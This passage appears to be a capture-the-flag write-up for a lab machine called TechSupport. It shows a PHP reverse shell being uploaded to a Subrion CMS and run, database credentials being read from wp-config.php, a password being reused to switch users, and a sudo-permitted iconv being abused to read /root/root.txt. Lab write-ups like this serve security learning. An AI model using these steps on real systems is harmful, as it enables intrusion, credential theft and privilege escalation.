 So now we have a shell and can execute files that are uploaded on subrion. After this I went to subrion files and I uploaded a reverse shell generated from (revshells)[https://www.revshells.com], more exactly I used the `PHP PentestMonkey`.

I uploaded the file to subrion and named it shell.php. After listing all the files we can see it:

`$ ls grutdmevxsbarvf.phar shell.php test.txt`

So I executed it `php shell.php`, now we have reverse shell!

Now we use python to get a bash: `python3 -c 'import pty;pty.spawn("bin/bash")'`, now we got to `var/www/html/wordpress` and cat the contents of the `wp-config.php`, to see if it contains the username and password of the account.

Bingo!:

```
/** MySQL database username */
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
```

we now have the credentials to connect to wordpress.

By listing the content of the `/home` folder we can see that there is a user called `scamsite`, we can try to login in with the password from the wordpress:

```
www-data@TechSupport:/home$ su scamsite
su scamsite
Password: ImAScammerLOL!123!
```

and we are in!

Now let's try to use privilege exploitation and become root. We can use the command `sudo -l` to see what commands we can run as root:

```
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```

We can now search how we can become root on https://gtfobins.github.io/.

We know that the flag is located at `/root/root.txt`,so we can use File read to read the file:

`LFILE=/root/root.txt`

then we use this command to output the content of the file:

```
sudo iconv -f 8859_1 -t 8859_1 "$LFILE"
851b8233a8c0*********1529bf1ed02790b
```

Thanks, for reading :)

